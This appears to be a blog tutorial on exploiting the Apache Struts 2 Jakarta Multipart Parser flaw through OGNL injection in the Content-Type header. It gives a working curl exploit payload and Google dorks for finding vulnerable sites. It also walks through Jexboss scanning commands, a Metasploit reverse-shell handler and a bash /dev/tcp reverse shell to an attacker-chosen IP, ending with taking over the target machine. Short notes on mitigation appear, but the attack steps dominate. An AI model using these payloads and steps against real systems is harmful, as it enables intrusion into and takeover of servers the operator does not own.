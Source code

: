 ## Introduction

In versions of **Apache Struts 2** prior to 2.3.32 and 2.5.10.1, there is a flaw in the **Jakarta Multipart Parser**. This flaw pertains to improper exception handling and generation of error messages during attempts to upload files. As a result, remote attackers can exploit this vulnerability to run arbitrary commands by manipulating the "`Content-Type`", "`Content-Disposition`", or "`Content-Length`" HTTP headers.

* * *

## Anatomy Of The Attack

### Apache Struts Vulnerability

Struts are vulnerable to remote command injection attacks through incorrectly parsing an attacker’s invalid "Content-Type HTTP header". The Struts vulnerability allows these commands to be executed under the privileges of the Web server.

If the "Content-Type" value isn’t valid, that is, it does not match an expected valid type, an exception is thrown that is then used to display an error message to a user. In this case, we can set the "Content-Type" to an OGNL expression such as:

```bash
ContentType: ${(#_='multipart/formdata')}...
```

#### Why Does the Vuln Occur?

The vulnerability occurs because the Content-Type is not escaped after the error, and is then used by **LocalizedTextUtil.findText()** function to build the error message. This function will interpret the supplied message, and anything within **${…}** will be treated as an Object Graph Navigation Library (OGNL) expression and evaluated as such. The attacker can leverage these conditions to execute OGNL expressions that in turn execute system commands.

OGNL is also an expressive and extensive language in and of itself. It’s a very powerful and reliable tool for the attacker. Many core JAVA functions can be exposed, for example, **java.core.ProcessBuilder()** allows an external program to be run on the system.

Exploitation is also further facilitated by the ability to receive information back from the server on the status and output of the commands that are executed by the webserver. No additional communication channel is needed, which aids in minimizing detection and bypassing existing firewall rules.

**HTTP REQUEST WITH CURL CONTAINING CONTENT-TYPE HEADER WITH OGNL EXPRESSION**

```bash
curl https://example.com:8080/welcome.action -H "Content-Type:
%{(#_="multipart/form-data').(#dm=@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS)
.(#_memberAccess?(#_memberAccess=#dm):((#container=#context['com.opensymphony.xwork2.ActionContext.container'])
.(#ognlUtil=#container.getInstance(@com.opensymphony.xwork2.ognl.OgnlUtil@class))
.(#ognlUtil.getExcludedPackageNames().clear()).(#ognlUtil.getExcludedClasses().clear())
.(#context.setMemberAccess(#dm)))).(#eps=#container.toString()).(#cmds=({'/bin/echo', #eps}))
.(#p=new java.lang.ProcessBuilder(#cmds)).(#p.redirectErrorStream(true)).(#process=#p.start())
.(#ros=(@org.apache.struts2.ServletActionContext@getResponse().getOutputStream()))
.(@org.apache.commons.io.IOUtils@copy(#process.getInputStream(),#ros)).(#ros.flush()))}
com.opensymphony.xwork2.inject.ContainerImpl@d0d2b00
```

The **curl** command shown above demonstrates whether the server is vulnerable or not by sending an http request with an embedded OGNL expression in the Content-Type header. The OGNL expression sets default access rights to the members of the **OgnlContext JAVA object**, which represents the execution context of the expression.

#### How Can This Vulnerability Be Addressed?

The risks related to this type of attack can be lessened by utilizing web application firewalls like **mod\_security**. This is achievable if rules are configured for valid content types or if OGNL expressions are added to a blacklist. However, the most optimal solution is undeniably updating **Struts2**.

* * *

### Google Dork

There is no doubt that there are thousand and one ways to find vulnerable targets for this type of attack. To cut short, we are going to use a non-exhaustive list of Google Dork to demonstrate how it’s easy for a blackhat to build a list of potentially vulnerable websites.

```bash
intitle:"Struts problem report" intext:"Struts has detected an Unhandled"
intitle:"Struts Problem Report" intext:"development mode is enabled."
filetype:action
filetype:do
filetype:java
filetype:out
filetype:bat
filetype:seam
filetype:sh
filetype:bson
filetype:el
filetype:pm
inurl:login.action
inurl:login.do
inurl:login.java
inurl:index.action
inurl:index.do
inurl:index.java
```

* * *

### Vulnerability Analysis

To detect if a host is vulnerable to the **Struts2** exploit, we can use **Jexboss**, this tool made in Python is definitively doing a great job and can help you to save precious time. The tool and exploits were developed and tested for JBoss Application Server versions v3, v4, v5, and v6. JSF, Seam Framework, RMI over HTTP, Jenkins CLI RCE (CVE-2015-5317), Remote JMX (CVE-2016-3427, CVE-2016-8735). For more information, you can visit the [Github](https://github.com/joaomatosf/jexboss) page of the author.

#### Requirements

- Python >= 2.7.x
- urllib3
- ipaddress

#### Install Jexboss on Ubuntu/Debian

```bash
git clone "https://github.com/joaomatosf/jexboss.git"
cd jexboss
pip install -r requires.txt
python jexboss.py -h
```

Or

```bash
wget "https://github.com/joaomatosf/jexboss/archive/master.zip"
unzip master.zip
cd jexboss-master
pip install -r requires.txt
python jexboss.py -h
```

#### Install Jexboss on Windows

If you are using Windows, you can use the Git Bash to run the JexBoss.

- Download and install Python
- Download and install Git for Windows
- After installing, run the Git for Windows and type the following commands

```bash
PATH=$PATH:C:\Python27\
PATH=$PATH:C:\Python27\Scripts
git clone https://github.com/joaomatosf/jexboss.git
cd jexboss
pip install -r requires.txt
python jexboss.py -h
```

* * *

### How To Use Jexboss

#### Scan single host using Jexboss

```bash
sudo python jexboss.py -host http://target_host:8080
```

#### Scan multiple hosts using Jexboss

```bash
sudo python jexboss.py -mode -file-scan -file /path/file/urls.txt -out /path/output/results.log --struts2
```

#### Create MSF Session

To open a session from our targeted website, we will need to create an exploit multi-handler with **Metasploit**. This can be done very quickly using the below commands.

```bash
msfconsole
msf > use exploit/multi/handler
msf exploit(multi/handler) > set "YOUR-IP-ADDRESS"
msf exploit(multi/handler) > set "YOUR-LOCAL-PORT"
msf exploit(multi/handler) > set PAYLOAD linux/x86/shell/reverse_tcp
msf exploit(multi/handler) > show options
```

On the above example, we are using a Linux X86 Shell Reverse TCP payload, of course the type of payload shall be different if we are targeting a Windows machine.

* * *

### Exploit The Target

We are now going to send our exploit to create a reverse shell using **Jexboss** and forward the traffic to the MSF session using TCP protocol.

#### Jexboss Commands

```bash
sudo python jexboss.py -host http://example.com/login.action --struts2
```

If **Jexboss** can inject his payload, you will need to enter the below command to establish a connection with **Metasploit**.

#### Jexboss Console

Replace `MACHINE-IP-ADDRESS` and `MACHINE-PORT` with your own parameters


```bash
Shell> /bin/bash -i > /dev/tcp/MACHINE-IP-ADDRESS/MACHINE-PORT 0>&1 2>&1
```

#### Metasploit Console

```bash
msf exploit(multi/handler) > exploit
```

You are done! If the targeted website and/or server is vulnerable to **Struts2** exploit, a session will be created in your **Metasploit** allowing you to take over the targeted machine. For more information about this tutorial and to see a live demonstration of this type of attack, I encourage you to watch the video below.

* * *

## Conclusion

The security flaw in Apache Struts 2 versions 2.3.x before 2.3.32 and 2.5.x before 2.5.10.1 poses a significant risk. Attackers can exploit incorrect exception handling and error-message generation during file-upload attempts to execute arbitrary code remotely. Organizations should promptly update their systems to mitigate this vulnerability and protect against potential attacks.

Stay vigilant and prioritize security measures! If you have any further questions or need additional information, feel free to ask!